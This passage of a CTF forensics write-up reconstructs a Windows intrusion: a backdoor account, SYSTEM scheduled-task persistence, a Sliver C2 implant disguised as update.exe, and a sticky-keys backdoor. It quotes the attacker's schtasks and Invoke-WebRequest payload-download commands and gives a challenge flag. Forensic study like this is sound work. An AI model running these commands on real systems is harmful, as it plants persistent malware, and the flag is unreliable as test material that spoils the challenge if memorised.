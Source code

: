 4. **User Account Creation** [T1136.001, T1078.003]
   - Created new user account "phasma" for persistent access
   - Added the account to "Remote Desktop Users" group for remote access capability
   - Evidence: Explicit account creation and group modification events in logs

5. **Scheduled Task Creation** [T1053.005, T1543.003]
   - Created scheduled task "updates" to run at system startup
   - Explicitly configured to execute with NT AUTHORITY\SYSTEM privileges for maximum access
   - Task creation was performed with elevated privileges inherited from the Elasticsearch service
   - Evidence: `schtasks /create /tn "updates" /tr $BINARY /ru 'SYSTEM' /sc onstart /rl highest`

6. **Masquerading as System File** [T1036.003, T1036.005]
   - Downloaded and replaced legitimate `C:\Windows\System32\update.exe` with malware
   - Download operation was performed with NT AUTHORITY\SYSTEM privileges, allowing modification of protected system files
   - Maintained same filename and location to avoid detection
   - Evidence: PowerShell command showing file replacement: `Invoke-WebRequest -Uri "http://192.168.1.107:8000/update.exe" -OutFile $BINARY`

7. **Sliver C2 Framework** [T1105, T1071]
   - Malicious update.exe was a Sliver C2 framework implant
   - Established communication with C2 server at 192.168.1.224
   - Evidence: VirusTotal analysis confirming C2 communication

8. **SYSTEM Level Execution** [T1548, T1134]
   - Scheduled task ran malware with NT AUTHORITY\SYSTEM privileges
   - Highest possible local permissions on the Windows system
   - The entire attack chain maintained SYSTEM privileges from initial access through execution
   - Evidence: `/ru 'SYSTEM'` parameter in scheduled task creation and `/rl highest` for highest privilege level

9. **Remote Desktop Protocol** [T1021.001]
   - Configured RDP access via "Remote Desktop Users" group membership
   - Created potential for movement to other systems in the network
   - Evidence: Specific group membership modification

10. **Backdoor Establishment** [T1505]
    - Implemented a persistent backdoor for future access
    - Replaced system accessibility executables with command shell (sticky keys backdoor technique)
    - Revealed by flag `byuctf{00p5_4ll_b4ckd00r5_139874}`
    - Evidence: Backdoor commands and file replacements visible in Sysmon logs

## Forensics 
### Are You Looking Me Up?
#### Description 